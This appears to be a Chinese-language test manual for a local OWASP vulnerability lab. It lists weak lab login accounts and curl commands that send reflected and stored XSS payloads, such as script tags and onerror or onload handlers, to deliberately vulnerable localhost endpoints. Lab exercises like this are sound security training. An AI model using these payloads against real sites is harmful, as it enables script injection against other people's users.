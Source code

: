 # OWASP漏洞实验室 - POC测试手册

## 🌐 服务地址
- **前端应用**: http://localhost:3000
- **后端API**: http://localhost:8080
- **测试账户**: 
  - 管理员: `admin` / `admin123`
  - 普通用户: `john` / `password123`, `jane` / `qwerty`, `bob` / `123456`, `alice` / `password`

---

## 1. 🔴 XSS (跨站脚本攻击)

### API端点
```bash
# 获取XSS漏洞信息
curl -X GET http://localhost:8080/api/xss/info
```

### 反射型XSS测试
```bash
# 基础XSS测试
curl -X GET "http://localhost:8080/api/xss/reflected?input=<script>alert('XSS')</script>"

# 图片标签XSS
curl -X GET "http://localhost:8080/api/xss/reflected?input=<img src=x onerror=alert('XSS')>"

# SVG标签XSS
curl -X GET "http://localhost:8080/api/xss/reflected?input=<svg onload=alert('XSS')>"

# 事件处理器XSS
curl -X GET "http://localhost:8080/api/xss/reflected?input=<div onmouseover=alert('XSS')>Hover me</div>"

# iframe JavaScript XSS
curl -X GET "http://localhost:8080/api/xss/reflected?input=<iframe src=javascript:alert('XSS')>"
```

### 存储型XSS测试
```bash
# 提交恶意评论
curl -X POST http://localhost:8080/api/xss/stored/comment \
  -H "Content-Type: application/json" \
  -d '{"comment": "<script>alert(\"Stored XSS\")</script>", "author": "attacker"}'

# 查看存储的评论（触发XSS）
curl -X GET http://localhost:8080/api/xss/stored/comments
```

